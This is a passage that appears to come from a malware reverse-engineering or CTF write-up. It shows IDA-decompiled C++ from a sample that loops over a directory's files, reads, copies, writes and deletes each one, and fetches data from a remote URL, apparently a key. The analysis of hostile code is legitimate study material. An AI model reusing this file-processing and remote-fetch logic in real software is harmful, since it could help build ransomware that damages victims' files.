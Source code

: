 ```cpp=
    if ( FirstFileA != (HANDLE)-1i64 )
    {
      do
      {
        space = 0i64;
        if ( (lpFindFileData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) == 0
          && !(unsigned int)Create_Read_File(lpFindFileData.cFileName, (LPVOID *)&space, &fileSize) )
        {
          if ( (unsigned int)sprintf_copyFile(lpFindFileData.cFileName, folderName) )
            Create_Write_Delete_File(lpFindFileData.cFileName, space, fileSize);
        }
      }
      while ( FindNextFileA(FirstFileA, &lpFindFileData) );
      FindClose(FirstFileA);
    }
  }
}
```
:::
:::spoiler IDA InternetConnect
```cpp=
__int64 InternetConnect()
{
  unsigned int v1; // [rsp+30h] [rbp-38h]
  BOOL i; // [rsp+34h] [rbp-34h]
  _BYTE *lpBuffer; // [rsp+38h] [rbp-30h]
  HINTERNET hFile; // [rsp+40h] [rbp-28h]
  HINTERNET hInternet; // [rsp+48h] [rbp-20h]
  LPDWORD *lpdwNumberOfBytesRead; // [rsp+50h] [rbp-18h] BYREF

  lpBuffer = malloc(0x1000ui64);
  hInternet = InternetOpenA(szAgent, 1u, 0i64, 0i64, 0);
  if ( !hInternet )
    return 1i64;
  hFile = InternetOpenUrlA(hInternet, szUrl, 0i64, 0, INTERNET_FLAG_RELOAD, 0i64);
  if ( hFile )
  {
    v1 = 0;
    for ( i = InternetReadFile(hFile, lpBuffer, 0x1000u, &lpdwNumberOfBytesRead);
          i && lpdwNumberOfBytesRead && v1 < 0x1000;
          i = InternetReadFile(hFile, &lpBuffer[v1], 4096 - v1, &lpdwNumberOfBytesRead) )
    {
      v1 += lpdwNumberOfBytesRead;
    }
    qword_140007460 = (lpBuffer + 2687);
    lpBuffer[2706] = 0;
    InternetCloseHandle(hFile);
    InternetCloseHandle(hInternet);
    return 0i64;
  }
  else
  {
    InternetCloseHandle(hInternet);
    return 2i64;
  }
}
```
:::
:::spoiler IDA Create_Read_File
```cpp=
__int64 __fastcall Create_Read_File(LPCSTR lpFileName, LPVOID *space, DWORD *fileSize)
{
  HANDLE hFile; // [rsp+40h] [rbp-128h]
```